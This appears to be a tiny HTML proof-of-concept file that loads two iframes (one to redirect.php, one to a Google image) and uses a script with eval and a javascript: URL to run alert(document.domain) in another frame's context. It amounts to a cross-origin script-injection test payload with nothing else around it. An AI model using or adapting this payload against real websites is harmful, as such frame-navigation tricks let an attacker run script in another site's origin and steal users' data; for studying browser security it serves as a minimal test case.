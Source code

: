 # wd

<iframe src="redirect.php"> </iframe>
<iframe src="https://www.google.com/images/srpr/logo11w.png"></iframe>
<script>
    top[0].eval('_=top[1];alert();_.location="javascript:alert(document.domain)"');
</script>
